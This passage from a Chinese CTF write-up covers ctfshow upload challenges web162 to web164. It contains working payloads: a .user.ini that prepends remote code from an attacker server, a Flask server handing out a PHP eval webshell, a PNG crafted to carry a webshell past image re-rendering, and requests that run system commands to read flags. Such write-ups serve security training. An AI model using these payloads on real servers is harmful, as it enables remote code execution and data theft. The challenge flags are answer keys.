<h3 id="最终的flag："><a href="#最终的flag：" class="headerlink" title="最终的flag："></a>最终的flag：</h3><p>获取的那个数据包内容如下：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">HTTP/<span class="number">1.1</span> <span class="number">200</span> OK</span><br><span class="line">Server: nginx/<span class="number">1.18</span>.<span class="number">0</span> (Ubuntu)</span><br><span class="line">Date: Mon, <span class="number">11</span> Dec <span class="number">2023</span> <span class="number">12</span>:<span class="number">50</span>:<span class="number">21</span> GMT</span><br><span class="line">Content-Type: text/html; charset=UTF-<span class="number">8</span></span><br><span class="line">Connection: close</span><br><span class="line">X-Powered-By: PHP/<span class="number">5.6</span>.<span class="number">40</span></span><br><span class="line">Content-Length: <span class="number">608</span></span><br><span class="line"></span><br><span class="line">GIF89?</span><br><span class="line">log.conf/etc/nginx/nginx.conf/<span class="keyword">var</span>/log/nginx/error.log</span><br><span class="line">phpphpflag:flag.phpphp:<span class="comment">//filter/read=convertbase64-encode/resource=/var/www/html/flag.phpphp://filter/read=convert.base64-encode/resource=/var/www/html/flag.phpPD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0yMSAyMTozMToyMw0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMTAtMTYgMjI6NDE6NDANCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxhZz0iY3Rmc2hvd3sxYTQ0N2E4MS05M2Y2LTRkM2ItOWIyNi03MTlmNTlkNTVlYWZ9Ijs=1nothing here</span></span><br></pre></td></tr></table></figure>

<p>截取其中的 <code>base64</code> 的内容:</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0yMSAyMTozMToyMw0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMTAtMTYgMjI6NDE6NDANCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxhZz0iY3Rmc2hvd3sxYTQ0N2E4MS05M2Y2LTRkM2ItOWIyNi03MTlmNTlkNTVlYWZ9Ijs=</span><br></pre></td></tr></table></figure>

<p>再使用 <code>base64</code> 进行解码：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-09-21 21:31:23</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-16 22:41:40</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;1a447a81-93f6-4d3b-9b26-719f59d55eaf&#125;&quot;</span>;</span><br></pre></td></tr></table></figure>

<h3 id="总结"><a href="#总结" class="headerlink" title="总结"></a>总结</h3><p>弊端：依赖的方法被写死，只能直接包含和读取文件，做不到包含一句话木马进行系统进行任意操作。</p>
<h2 id="解题–远程文件包含"><a href="#解题–远程文件包含" class="headerlink" title="解题–远程文件包含"></a>解题–远程文件包含</h2><p>依然是使用相同的上传 <code>.user.ini</code> 的方法，改动的是文件 <code>f</code> 的内容：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">GIF89a?</span><br><span class="line">&lt;?=include&quot;http://3024726958&quot;?&gt;</span><br></pre></td></tr></table></figure>

<blockquote>
<p>这里使用的是将远程的IP地址或域名转换为整数的形式，再使用这个整数化的地址访问文件f，就能实现文件包含了。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?=</span><span class="keyword">eval</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;x&#x27;</span>])<span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>

<p>在进行文件包含的时候，默认路由指向的文件不能是php文件，因为我们引用的一定是php文件已经解析过的内容，所以这里使用txt文件包含或者直接无名文件进行包含。</p>
</blockquote>
<p>在笔者使用自己的服务器进行测试包含对应的整数IP地址的时候一直出现报错的问题，报错信息是400，为了方便测试，这里稍稍修改：</p>
<h2 id="upload源代码"><a href="#upload源代码" class="headerlink" title="upload源代码"></a>upload源代码</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-24 19:34:52</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-26 15:49:51</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)===<span class="literal">FALSE</span> &amp;&amp; <span class="title function_ invoke__">check</span>(<span class="variable">$content</span>) &amp;&amp; <span class="title function_ invoke__">getimagesize</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]))&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">    		</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> !<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/php|\&#123;|\[|\;|log|\(| |\`|flag|\./i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br><span class="line"></span><br></pre></td></tr></table></figure>


<h1 id="web163"><a href="#web163" class="headerlink" title="web163"></a>web163</h1><h2 id="原始信息-73"><a href="#原始信息-73" class="headerlink" title="原始信息"></a>原始信息</h2><h2 id="解题-68"><a href="#解题-68" class="headerlink" title="解题"></a>解题</h2><blockquote>
<p>此处引用一位厉害的师傅的wp：<a target="_blank" rel="noopener" href="https://blog.csdn.net/Kracxi/article/details/122954326#%E6%80%9D%E8%B7%AF">https://blog.csdn.net/Kracxi/article/details/122954326#%E6%80%9D%E8%B7%AF</a></p>
</blockquote>
<p>此处使用远程包含，且包含的方法是使用配置文件 <code>.user.ini</code> 进行包含。之前是包含本地的文件，现在是使用http远程文件进行包含。</p>
<p>服务器返回一句话木马的部署方法如下：</p>
<h3 id="部署一句话木马的存放服务器"><a href="#部署一句话木马的存放服务器" class="headerlink" title="部署一句话木马的存放服务器"></a>部署一句话木马的存放服务器</h3><p>文件名: <code>app.py</code> </p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="keyword">from</span> flask <span class="keyword">import</span> Flask</span><br><span class="line"><span class="keyword">from</span> flask <span class="keyword">import</span> request</span><br><span class="line"></span><br><span class="line">app = Flask(__name__)</span><br><span class="line"></span><br><span class="line"><span class="meta">@app.route(<span class="params"><span class="string">&quot;/&quot;</span></span>)</span></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">run_cmd</span>():</span><br><span class="line">    <span class="keyword">return</span> <span class="string">&quot;&lt;h1&gt;Hello World!&lt;/h1&gt;&lt;?php echo &#x27;kradress&#x27;;eval($_POST[&#x27;kradress&#x27;]);?&gt;&quot;</span></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    app.run(host=<span class="string">&#x27;0.0.0.0&#x27;</span>,port =<span class="number">80</span>)</span><br></pre></td></tr></table></figure>

<p>服务器启动的方法如下：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line">gunicorn -b <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span>:<span class="number">8000</span> app:app</span><br></pre></td></tr></table></figure>

<p>使用flask搭建的时候，要十分注意一点东西：服务器内的开放端口和服务器外的开放端口。</p>
<p>笔者使用的是Ubuntu服务器，需要使用防火墙开放8000端口：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line"><span class="meta prompt_"># </span><span class="language-bash">允许特定端口开放</span></span><br><span class="line">sudo ufw allow 8000/tcp</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">启动防火墙</span></span><br><span class="line">sudo ufw enable</span><br></pre></td></tr></table></figure>

<p>还有阿里云的服务器.阿里云的服务器开放端口配置要在安全组配置。配置完成后就能访问并且开始打flag了。</p>
<h3 id="使用配置文件-user-ini-进行远程文件包含"><a href="#使用配置文件-user-ini-进行远程文件包含" class="headerlink" title="使用配置文件 .user.ini 进行远程文件包含"></a>使用配置文件 <code>.user.ini</code> 进行远程文件包含</h3><p>这里提供数据包：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">-----------------------------11428732581767129145325591288</span><br><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.user.ini&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89a?</span><br><span class="line">auto_prepend_file=http://134123123</span><br><span class="line">-----------------------------11428732581767129145325591288--</span><br></pre></td></tr></table></figure>

<p>服务器就自己搭建吧。</p>
<p>文件包含后，访问对应的主页并且传入参数就能拿flag了。</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">GET: /upload</span><br><span class="line">POST: kradress=highlight_file(&#x27;../flag.php&#x27;);</span><br></pre></td></tr></table></figure>

<p>拿到的flag：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-09-21 21:31:23</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-16 22:41:40</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;be1e5ae5-23d7-4412-8a45-f4eae239e49b&#125;&quot;</span>;</span><br></pre></td></tr></table></figure>

<h3 id="upload文件内容"><a href="#upload文件内容" class="headerlink" title="upload文件内容"></a>upload文件内容</h3><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-24 19:34:52</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-26 15:49:51</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">        <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)===<span class="literal">FALSE</span> &amp;&amp; <span class="title function_ invoke__">check</span>(<span class="variable">$content</span>) &amp;&amp; <span class="title function_ invoke__">getimagesize</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]))&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">        &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">            <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        </span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> !<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/php|\&#123;|\[|\;|log|\(| |\`|flag|\./i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">clearUpload</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">system</span>(<span class="string">&quot;mv ./upload/index.php ./index.php_&quot;</span>);</span><br><span class="line">    <span class="title function_ invoke__">system</span>(<span class="string">&quot;rm -rf ./upload/*&quot;</span>);</span><br><span class="line">    <span class="title function_ invoke__">system</span>(<span class="string">&quot;mv ./index.php_ ./upload/index.php&quot;</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="title function_ invoke__">sleep</span>(<span class="number">2</span>);</span><br><span class="line"><span class="title function_ invoke__">clearUpload</span>();</span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>


<h1 id="web164–png二次渲染"><a href="#web164–png二次渲染" class="headerlink" title="web164–png二次渲染"></a>web164–png二次渲染</h1><h2 id="原始信息-74"><a href="#原始信息-74" class="headerlink" title="原始信息"></a>原始信息</h2><p>基本没啥提示信息，观察出来的信息是：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">GET: download.php?image=4a47a0db6e60853dedfcfdf08a5ca249.png</span><br></pre></td></tr></table></figure>

<p>疑似出现文件包含。</p>
<p>尝试使用远程包含，会直接进行文字提示的报错。</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">图片错误</span><br></pre></td></tr></table></figure>


<h2 id="解题-69"><a href="#解题-69" class="headerlink" title="解题"></a>解题</h2><p>这道题利用的是文件的包含执行，把图片包含到代码当中去，就有可能出现图片包含代码并且执行代码内容的情况。</p>
<p>生成图片的脚本：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="variable">$p</span> = <span class="keyword">array</span>(<span class="number">0xa3</span>, <span class="number">0x9f</span>, <span class="number">0x67</span>, <span class="number">0xf7</span>, <span class="number">0x0e</span>, <span class="number">0x93</span>, <span class="number">0x1b</span>, <span class="number">0x23</span>,</span><br><span class="line">           <span class="number">0xbe</span>, <span class="number">0x2c</span>, <span class="number">0x8a</span>, <span class="number">0xd0</span>, <span class="number">0x80</span>, <span class="number">0xf9</span>, <span class="number">0xe1</span>, <span class="number">0xae</span>,</span><br><span class="line">           <span class="number">0x22</span>, <span class="number">0xf6</span>, <span class="number">0xd9</span>, <span class="number">0x43</span>, <span class="number">0x5d</span>, <span class="number">0xfb</span>, <span class="number">0xae</span>, <span class="number">0xcc</span>,</span><br><span class="line">           <span class="number">0x5a</span>, <span class="number">0x01</span>, <span class="number">0xdc</span>, <span class="number">0x5a</span>, <span class="number">0x01</span>, <span class="number">0xdc</span>, <span class="number">0xa3</span>, <span class="number">0x9f</span>,</span><br><span class="line">           <span class="number">0x67</span>, <span class="number">0xa5</span>, <span class="number">0xbe</span>, <span class="number">0x5f</span>, <span class="number">0x76</span>, <span class="number">0x74</span>, <span class="number">0x5a</span>, <span class="number">0x4c</span>,</span><br><span class="line">           <span class="number">0xa1</span>, <span class="number">0x3f</span>, <span class="number">0x7a</span>, <span class="number">0xbf</span>, <span class="number">0x30</span>, <span class="number">0x6b</span>, <span class="number">0x88</span>, <span class="number">0x2d</span>,</span><br><span class="line">           <span class="number">0x60</span>, <span class="number">0x65</span>, <span class="number">0x7d</span>, <span class="number">0x52</span>, <span class="number">0x9d</span>, <span class="number">0xad</span>, <span class="number">0x88</span>, <span class="number">0xa1</span>,</span><br><span class="line">           <span class="number">0x66</span>, <span class="number">0x44</span>, <span class="number">0x50</span>, <span class="number">0x33</span>);</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="variable">$img</span> = <span class="title function_ invoke__">imagecreatetruecolor</span>(<span class="number">32</span>, <span class="number">32</span>);</span><br><span class="line"></span><br><span class="line"><span class="keyword">for</span> (<span class="variable">$y</span> = <span class="number">0</span>; <span class="variable">$y</span> &lt; <span class="title function_ invoke__">sizeof</span>(<span class="variable">$p</span>); <span class="variable">$y</span> += <span class="number">3</span>) &#123;</span><br><span class="line">   <span class="variable">$r</span> = <span class="variable">$p</span>[<span class="variable">$y</span>];</span><br><span class="line">   <span class="variable">$g</span> = <span class="variable">$p</span>[<span class="variable">$y</span>+<span class="number">1</span>];</span><br><span class="line">   <span class="variable">$b</span> = <span class="variable">$p</span>[<span class="variable">$y</span>+<span class="number">2</span>];</span><br><span class="line">   <span class="variable">$color</span> = <span class="title function_ invoke__">imagecolorallocate</span>(<span class="variable">$img</span>, <span class="variable">$r</span>, <span class="variable">$g</span>, <span class="variable">$b</span>);</span><br><span class="line">   <span class="title function_ invoke__">imagesetpixel</span>(<span class="variable">$img</span>, <span class="title function_ invoke__">round</span>(<span class="variable">$y</span> / <span class="number">3</span>), <span class="number">0</span>, <span class="variable">$color</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="title function_ invoke__">imagepng</span>(<span class="variable">$img</span>,<span class="string">&#x27;./1.png&#x27;</span>);</span><br><span class="line"><span class="meta">?&gt;</span></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment">图片包含的木马是：&lt;?=$_GET[0]($_POST[1]);?&gt;</span></span><br><span class="line"><span class="comment">*/</span></span><br></pre></td></tr></table></figure>

<p>在Burp抓包并且传参得到flag：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">POST /download.php?image=4a47a0db6e60853dedfcfdf08a5ca249.png&amp;0=system HTTP/1.1</span><br><span class="line">Host: ed965271-7464-4b58-961f-ad0b9ad03f5c.challenge.ctf.show</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0</span><br><span class="line">Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8</span><br><span class="line">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2</span><br><span class="line">Accept-Encoding: gzip, deflate</span><br><span class="line">Content-Type: application/x-www-form-urlencoded</span><br><span class="line">Content-Length: 14</span><br><span class="line">Origin: http://ed965271-7464-4b58-961f-ad0b9ad03f5c.challenge.ctf.show</span><br><span class="line">Connection: close</span><br><span class="line">Cookie: td_cookie=3688197217</span><br><span class="line">Upgrade-Insecure-Requests: 1</span><br><span class="line"></span><br><span class="line">1=cat f*</span><br></pre></td></tr></table></figure>

<p>flag:</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-09-21 21:31:23</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-16 22:41:40</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;43014430-f7dd-4bf5-a2aa-49ae920433de&#125;&quot;</span>;</span><br></pre></td></tr></table></figure>

